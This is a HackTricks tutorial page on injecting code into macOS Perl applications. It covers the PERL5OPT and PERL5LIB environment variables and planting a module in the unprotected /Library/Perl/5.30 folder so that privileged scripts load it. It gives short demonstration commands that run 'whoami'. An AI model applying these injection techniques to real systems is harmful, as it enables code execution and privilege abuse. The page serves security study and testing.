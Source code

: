 # macOS Perl Applications Injection

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable PERL5OPT it's possible to make perl execute arbitrary commands.\
For example, create this script:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

And then use the env variables:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```

## Via dependencies

It's possible to list the dependencies folder order of Perl running:

```bash
perl -e 'print join("\n", @INC)'
```

Which will return something like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders doesn't even exist, however, **`/Library/Perl/5.30`** does **exist**, it's **not** **protected** by **SIP** and it's **before** the folders **protected by SIP**. Therefore, someone could abuse that folder to add script dependencies in there so a high privilege Perl script will load it.

{% hint style="warning" %}
However, note that you **need to be root to write in that folder** and nowadays you will get this **TCC prompt**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt="" width="244"><figcaption></figcaption></figure>

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` to make it execute arbitrary code.

## References

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
